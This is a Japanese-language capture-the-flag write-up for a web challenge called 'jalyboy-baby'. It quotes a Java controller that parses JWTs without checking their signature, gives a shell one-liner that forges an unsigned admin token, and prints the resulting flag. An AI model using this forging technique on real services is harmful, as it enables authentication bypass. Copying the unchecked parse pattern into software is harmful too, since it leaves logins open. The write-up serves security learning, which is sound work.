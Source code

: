 # jalyboy-baby:Web:100pts
It's almost spring. I like spring, but I don't like hay fever.  
[http://34.84.28.50:10000/](http://34.84.28.50:10000/)  

[jalyboy-baby_7a1dfa2b72cd021aa085071bc93efada.zip](jalyboy-baby_7a1dfa2b72cd021aa085071bc93efada.zip)  

# Solution
URLとソースが渡される。  
アクセスするとボタンで`guest`になれるサービスのようだが、`admin`にはなれない。  
![site.png](site/site.png)  
URLクエリを見ると、以下のようであった。  
```
http://34.84.28.50:10000/?j=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.rUKzvxAwpuro6UF6KETwbMPCLBsPGUScjSEZtQGjfX4
```
jwtでユーザを管理しているようだ。  
ペイロードは以下であった。  
```json
{
  "sub": "guest"
}
```
ここをどうにかして`admin`にしたい。  
ソースを見ると主要部分は以下であった。  
```java
~~~
@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    Key secretKey = Keys.secretKeyFor(SignatureAlgorithm.HS256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(secretKey).compact();

        try {
            Jwt jwt = Jwts.parser().setSigningKey(secretKey).parse(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```
署名の検証が行われていないので、そのまま`admin`に改竄すればよさそうだ。  
以下のように行う。  
```bash
$ # eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.rUKzvxAwpuro6UF6KETwbMPCLBsPGUScjSEZtQGjfX4
$ echo "eyJhbGciOiJIUzI1NiJ9.`echo -n '{ "sub": "admin" }' | base64`."
eyJhbGciOiJIUzI1NiJ9.eyAic3ViIjogImFkbWluIiB9.
```
URLのクエリに設定してアクセスする。  
![flag.png](site/flag.png)  
flagが得られた。  

## LINECTF{337e737f9f2594a02c5c752373212ef7}